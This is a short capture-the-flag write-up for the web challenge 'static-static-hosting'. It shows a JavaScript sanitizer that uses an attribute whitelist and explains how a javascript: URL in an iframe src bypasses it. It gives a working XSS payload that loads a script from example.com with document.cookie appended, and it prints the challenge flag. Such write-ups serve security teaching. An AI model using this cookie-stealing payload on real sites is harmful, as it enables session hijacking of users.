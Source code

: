 # static-static-hosting (222 solves)

Source: [script.js](./script.js)

```js
function sanitize(element) {
	const attributes = element.getAttributeNames();
	for (let i = 0; i < attributes.length; i++) {
		// Let people add images and styles
		if (!["src", "width", "height", "alt", "class"].includes(attributes[i])) {
			element.removeAttribute(attributes[i]);
		}
	}

	const children = element.children;
	for (let i = 0; i < children.length; i++) {
		if (children[i].nodeName === "SCRIPT") {
			element.removeChild(children[i]);
			i--;
		} else {
			sanitize(children[i]);
		}
	}
}
```

This time, the script sanitizes your input by removing all attributes except those on a whitelist and removing all script elements. However, we can still perform XSS by using a `javascript:` url as an iframe src.

Final Exploit:

```html
<iframe src="javascript:a=document.createElement('script'),a.setAttribute('src','https://example.com/x.js?cookie='+document.cookie),document.documentElement.appendChild(a)"></iframe>
```

Flag: `flag{wh0_n33d5_d0mpur1fy}`
